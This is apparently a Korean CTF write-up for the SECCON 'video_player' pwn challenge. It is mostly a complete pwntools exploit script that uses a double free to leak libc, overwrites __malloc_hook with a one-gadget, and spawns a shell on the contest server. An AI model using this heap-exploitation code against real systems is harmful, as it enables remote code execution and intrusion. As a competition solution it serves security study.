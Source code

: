 video_player 500 (Solver : 30)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE         |
|---------------|--------------|------------|--------|----------|------------|--------------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | video_player | 

x64 바이너리이며 이게 ida 한번도안쓰고 동적분석으로 진행하다가 더블프리터지는거보고 릭이랑 익스 싹다짰습니다. 원리는 다른 라업을 참고하시는걸로..
(대회중에 푼거라서 코드가 좀 더럽고 정리를 안했습니다.)

### 2. Exploit

videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa) -> 이런식으로 할당하면 0xa가 할당되고 똑같이 edit하면 할당하고 해제해서 더블프리가능.

```python
from ntpwn import *

#s = process('./video')
s = remote('video_player.pwn.seccon.jp',7777)
#l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
l = ELF('libc.so.6')
'''
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()
'''

pause()
s.sendafter('e name?','A' * 0xff)

def videoadd(a,b,c,d,e):
	s.sendlineafter('>>> ','1')
	s.sendlineafter('>>> ','1')
	s.sendafter(': ',a)
	s.sendafter(': ',b)
	s.sendafter(': ',c)
	s.sendafter(': ',d)
	s.sendafter(': ',e)

def videoedit(index,a,b,c,d,e):
	s.sendlineafter('>>> ','2')
	s.sendlineafter(': ',index)
	s.sendafter(': ',a)
	s.sendafter(': ',b)
	s.sendafter(': ',c)
	s.sendafter(': ',d)
	s.sendafter(': ',e)

def remove(index):
	s.sendlineafter('>>> ','4')
	s.sendlineafter(': ',index)

videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)
videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)
videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)

#debug()

remove('2')
remove('1')
videoedit('0','A','A','\xff','A' * 0x8,'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
print hex(u32(s.recv(4)) ^ 0xcccccccc)
print hex(u32(s.recv(4)) ^ 0xcccccccc)
l_1 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100

log.info(hex(l_1))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 5)
l_2 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100

log.info(hex(l_2))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 6)
l_3 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_3))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 7)
l_4 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_4))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex') + str(hex(l_4)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 8)
l_5 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_5))

libc_leak =  str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex') + str(hex(l_4)[2:]).decode('hex') + str(hex(l_5)[2:]).decode('hex') + '\x7f' + "\x00" * 2

libc_leak = u64(libc_leak) - 0x90 + (0x6 * 8) - 0x8 - l.symbols['__malloc_hook']
print hex(libc_leak)

pause()
videoedit('0','A','A','\x68',p64(libc_leak + l.symbols['__malloc_hook'] - 0x23),'\x0a')
videoadd('\x0a','\x0a','\x68','\x0a','\x0a')
videoadd('\x0a','\x0a','\x68','C' * 0x13 + p64(libc_leak+ 0x4526a),'\x0a')

s.sendlineafter('>>> ','3')


s.interactive()
```

### 3. Flag
![ex_screenshot](./flag/flag3.png)
